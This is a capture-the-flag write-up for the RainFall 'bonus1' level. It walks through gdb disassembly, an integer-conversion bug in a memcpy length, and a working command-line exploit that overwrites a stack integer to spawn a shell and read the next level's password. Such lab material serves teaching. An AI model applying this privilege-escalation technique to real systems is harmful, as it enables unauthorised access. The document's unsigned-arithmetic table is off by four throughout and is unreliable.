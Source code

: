 # bonus1

## Hint

When we log into the machine as `bonus1`, we notice a binary:

```shell-session
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

The first run of the binary is resulting a Segmentation Fault.

```shell-session
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```

And any arguments pass to the binary doesn't seems to do anything.

```shell-session
bonus1@RainFall:~$ ./bonus1 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bonus1@RainFall:~$
```

Lets dig into it

## gdb

After running `info variables` and `info functions` in gdb, we see no unknown symbols.

Conclusion:
There are no user-defined function or global variables neither.

Ok let's look at `main`

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0                     <-- Allign the stack to 16 bytes boundaries
   0x0804842a <+6>:	sub    esp,0x40                           <-- Space of 64 bytes for the stack frame
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]            <-- Load char *argv[]
   0x08048430 <+12>:	add    eax,0x4                            <-- Add 4 to char *argv[]
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]                <-- Load char *argv[1]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax                <-- Set char *argv[1] as the 1st argument to atoi()
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>               <-- Call to atoi(argv[1])
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax           <-- Store the return of atoi(argv[1]) in int i ( i = atoi(argv[1]) )
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9           <-- Compare return of atoi(argv[1]) with 9
   0x08048446 <+34>:	jle    0x804844f <main+43>                <-- If atoi(argv[1]) <= 9, jump to main+43
   0x08048448 <+36>:	mov    eax,0x1                            <-- Set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>               <-- jump to main+127 (return(1))
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]           <-- Load int i
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]                    <-- Set ecx to i * 4
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]            <-- Load char *argv[]
   0x0804845d <+57>:	add    eax,0x8                            <-- Add 8 to char *argv[]
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]                <-- Load char *argv[2]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]                     <-- Load char buffer[40];
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx            <-- Set i * 4 as the 3rd argument to memcpy()
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx            <-- Set char *argv[2] as the 2nd argument to memcpy()
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax                <-- Set char buffer[40] as the 1st argument to memcpy()
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>             <-- Call to memcpy(buffer, argv[2], i * 4)
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46    <-- Compare int i with '1464814662'
   0x08048480 <+92>:	jne    0x804849e <main+122>               <-- if i != '1464814662', jump to main+122
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0            <-- Set 0 as the 3rd argument to execl()
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580   <-- Set "sh" as the 2nd argument to execl()
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583       <-- Set "/bin/sh" as the 1st argument to execl()
   0x08048499 <+117>:	call   0x8048350 <execl@plt>           <-- Call to execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    eax,0x0                         <-- set eax to 0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```

## Identifying the vulnerability

We clearly can see that the `main` function is calling `execl` with the `/bin/sh` and `sh` arguments.

But how can we get there ?

### Underflowing the integer

Our first argument to this binary is passed to `i = atoi(argv[1])`.

Then if our first argument is at most equal to `9`.

We can go further.

Then the value returned by `atoi()` is multiplied by `4`.

So `i` becomes `i * 4`.

Then we have `memcpy(buffer, argv[2], i)`.

The thing to note here is that `memcpy` takes a `size_t` as third argument and therefor implicitly casts the value it is given to an `unsigned` type. This allows us to willingly underflow it.

We pass our second argument to the binary and it is copied byte after byte to the `buffer`.

The `buffer` can hold at most `40` bytes.

We cleary have a buffer overflow potential here.

But from a simple mathematical standpoint, it is not possible.

Indeed, to get a buffer overflow, we have to pass more than `40` bytes to the `memcpy()` function.

But to get there we can at most give: `9 * 4` = `36 bytes` to `memcpy()`.

After a bit digging we can see that a integer conversion occurs there.

We receive a signed integer from the `atoi()` function, but we pass a unsigned integer to `memcpy()`.

So we must ensure to have a correct value for the `i` variable as a signed integer and pass the first check and still trigger a buffer overflow.

### Overflowing the buffer

Since the integer is at the higher memory address than the buffer, we can easily overflow this address and pass the condition `if (i == 1464814662)`.

So technically we need more than 40 bytes to overflow the buffer and be able to overwrite the integer.

But how can we pass a positive value to memcpy with a negative integer as input ?

We know that `uint_max = 2^32 - 1 = 4294967295`.

So if we add `1` to `4294967295` we get 0 when casting it to a unsigned integer.

Let's divide by `4` to get the integer.

`4294967296 / 4 = 1073741824`. If we multiple `(unsigned int)(-1073741824 * 4)` we have 0.

We then have a negative integer that passes the crash we can now find our next segfault deeper in the executable.

We will find which value is causing a buffer overflow with `memcpy` now.

Let's find the segfault from there.

```gdb
(unsigned int)(-1073741824 * 4) = 4.
(unsigned int)(-1073741823 * 4) = 8.
(unsigned int)(-1073741822 * 4) = 12.
(unsigned int)(-1073741821 * 4) = 16.
(unsigned int)(-1073741820 * 4) = 20.
(unsigned int)(-1073741819 * 4) = 24.
(unsigned int)(-1073741818 * 4) = 28.
(unsigned int)(-1073741817 * 4) = 32.
(unsigned int)(-1073741816 * 4) = 36.
(unsigned int)(-1073741815 * 4) = 40.
(unsigned int)(-1073741814 * 4) = 44.
(unsigned int)(-1073741813 * 4) = 48.
(unsigned int)(-1073741812 * 4) = 52.
(unsigned int)(-1073741811 * 4) = 56.
(unsigned int)(-1073741810 * 4) = 60.
(unsigned int)(-1073741809 * 4) = 64.  <-- segfault !
```

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809
Segmentation fault (core dumped)
```

We can now overwrite the integer with an exact value and a padding of 40 bytes.

## recap

2 arguments are passed to the program:
1. argv[1] is fed to `atoi()`
   - a variable `i` of type `int `is used to store the returned value
   - it is then tested to be `<=` to 9.
      - false -> return 1
      - true -> continue with program
	 - multiply that value by 4 and call `memcpy`. Though `memcpy` takes a `size_t` as argument and therefor implicitly casts that value to an `unsigned` type.
2. argv[2] is fed to `memcpy` as follows: `memcpy(buffer, argv[2], i);`
   - as we know this function is prone to security exploits, we just need to find the correct value for `i` in order to correctly overflow the destination `buffer`.
   - After a bit of calculations we find a value (`-1073741809`) that not only allows us to pass de `<= 9` test, but also overflow the buffer used in the call to `memcpy` with a value of `64`.
   - Once we have managed to overflow the buffer, we just have to insert with the right padding a specific value at the address of the `i` variable in order to get to the call to `execv("/bin.sh", "sh", 0);`

## Exploit

No need shell code we know exactly where the integer is located. The rest will follow.

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
